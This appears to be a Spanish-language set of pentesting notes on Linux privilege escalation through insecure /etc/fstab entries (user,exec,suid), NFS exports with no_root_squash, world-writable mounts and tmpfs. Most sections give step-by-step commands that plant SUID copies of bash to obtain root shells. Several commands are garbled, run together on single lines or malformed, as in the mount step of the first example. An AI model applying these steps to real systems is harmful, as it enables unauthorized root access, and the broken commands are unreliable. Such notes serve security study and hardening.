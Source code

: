 
## Formato de `/etc/fstab`
Es el archivo que define qué sistemas de archivos se montan automáticamente al inicio del sistema y como
- Formato típico: 
	```bash
	<dispositivo>   <punto_de_montaje>   <tipo_fs>   <opciones>   <dump>   <pass>
	# Ejemplo de montaje inseguro o peligroso: 
	/dev/sdb1   /mnt/share  ext4    user,exec,suid    0 0
```

| Punto clave                     | ¿Útil para escalar? | Cómo se explota                          |
| ------------------------------- | ------------------- | ---------------------------------------- |
| `user,exec,suid` en fstab       | ✅ Sí                | Montas disco → ejecutas payload con SUID |
| NFS con `no_root_squash`        | ✅ Sí                | Subes SUID payload desde otra máquina    |
| Punto de montaje world-writable | ✅ Sí                | Colocas archivos maliciosos ejecutables  |
## 🧩 1. `user`, `exec`, `suid` → **Montajes peligrosos como usuario**

### ¿Qué hace esto?

Cuando una entrada en `/etc/fstab` contiene `user`, significa que **un usuario sin privilegios puede montar ese sistema de archivos**.
Si además tiene:
- `exec` → permite ejecutar binarios desde ahí
- `suid` → permite que binarios con SUID funcionen
### ¿Por qué es peligroso?
Porque puedes **crear una imagen de disco propia con un binario SUID (como `bash`)**, montarla en el sistema, y conseguir **una shell como root**
### 🔥 Ejemplo práctico:
1. Crear un binario `bash` con SUID root:
	```bash
	cp /bin/bash ./bash_suid chmod +s ./bash_suid
	```
2. Crear una imagen de disco:
```bash
    dd if=/dev/zero of=disk.img bs=1M count=10 mkfs.ext4 disk.img mkdir /tmp/mnt sudo mount -o loop disk.img /tmp/mnt cp bash_suid /tmp/mnt/ sudo umount /tmp/mnt
```
3. Montarla usando una entrada en `/etc/fstab` que permite:
```bash
    /home/user/disk.img /mnt ext4 loop,user,exec,suid 0 0
```
4. Luego:
	```bash
	mount /mnt /mnt/bash_suid -p
	```

✅ Shell con privilegios elevados.

---

## 🧩 2. NFS con `no_root_squash` → **Root remoto = root local**

### ¿Qué es `no_root_squash`?

En sistemas NFS, normalmente el acceso como `root` desde un cliente remoto se convierte en `nobody` (por seguridad).  
Con `no_root_squash`, **eso se desactiva**, y si montas ese recurso como root, **eres root también en el servidor**.

### 🔥 Ejemplo de entrada en `/etc/exports` del servidor NFS:
```
/srv/share  *(rw,sync,no_root_squash)
```
### ¿Cómo se explota?

1. Desde tu máquina, montas el recurso:
	```bash
	mount -t nfs 10.0.0.5:/srv/share /mnt
	```
2. Subes un binario SUID como root:
	```bash
	cp /bin/bash /mnt/bash_root chmod +s /mnt/bash_root
	```

3. Luego en la máquina víctima (que monta ese NFS automáticamente), puedes ejecutar:
	```bash
	/srv/share/bash_root -p
	```
    

✅ Shell como root.

---

## 🧩 3. Montajes world-writable o mal protegidos

### ¿Qué significa?
Si un punto de montaje está en `/etc/fstab` y es **world-writable** o tiene permisos inseguros, **cualquier usuario puede escribir allí** y tal vez colocar payloads maliciosos.

### ¿Por qué es riesgoso?

- Un cronjob podría ejecutarse desde allí
- Un demonio (`systemd`, `rsync`, etc.) podría procesar archivos colocados por un usuario
- Pueden haber binarios o scripts llamados desde ahí con permisos root

### 🔍 ¿Cómo lo detectas?

```bash
findmnt ls -ld /mnt /media /srv
```

Busca:
- Permisos `drwxrwxrwx` o `drwxrwxr-x`
- Dueño `root`, grupo `users`, etc.
---

## 🧩 4. Archivos de montaje tipo `tmpfs`, `iso9660` o `vfat`

### ¿Por qué importa el tipo de sistema de archivos?

- Algunos sistemas de archivos como `vfat` **no soportan permisos Unix**, lo que puede llevar a que **todos los archivos sean ejecutables por todos**.
- Otros como `tmpfs` pueden permitirte montar memoria como disco y ejecutar cosas sin tocar disco real.

### 🔥 Ejemplo:

Si ves esto en `/etc/fstab`:

```bash
tmpfs /mnt/tmpfs tmpfs rw,user,exec 0 0
```

Puedes hacer:

```bash
mount /mnt/tmpfs cp /bin/bash /mnt/tmpfs/bash chmod +s /mnt/tmpfs/bash /mnt/tmpfs/bash -p
```

✅ Shell root si el binario se ejecuta desde un proceso con privilegios.